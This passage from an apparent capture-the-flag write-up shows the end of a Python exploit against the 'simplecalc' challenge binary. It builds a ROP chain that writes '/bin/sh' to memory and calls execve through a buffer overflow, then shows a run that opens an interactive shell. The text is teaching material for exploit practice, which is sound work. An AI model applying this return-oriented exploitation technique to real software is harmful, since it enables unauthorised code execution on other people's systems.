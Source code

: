 ```
pop rdx, 0x0 ; ret
'''
add(popRax)
add(0x6c1000)
add(popRdx)
add(0x0068732f6e69622f) # "/bin/sh" in hex
add(movGadget)

add(popRax) # Specify which syscall to make
add(0x3b)

add(popRdi) # Specify pointer to "/bin/sh"
add(0x6c1000)

add(popRsi) # Specify no arguments or environment variables
add(0x0)
add(popRdx)
add(0x0)

add(syscall) # Syscall instruction

target.sendline(b'5') # Save and exit to execute memcpy and trigger buffer overflow

# Drop to an interactive shell to use our new shell
target.interactive()
```

When we run the exploit:

```
$ python3 exploit.py
[+] Starting local process './simplecalc': pid 6507
[*] Switching to interactive mode
Result for x + y is 0.

Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> $ w
 18:59:54 up  2:49,  1 user,  load average: 0.31, 0.19, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               16:17   ?xdm?   6:14   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
$ ls
exploit.py  readme.md  simplecalc
$
[*] Interrupted
[*] Stopped process './simplecalc' (pid 6507)
```

Just like that, we popped a shell!
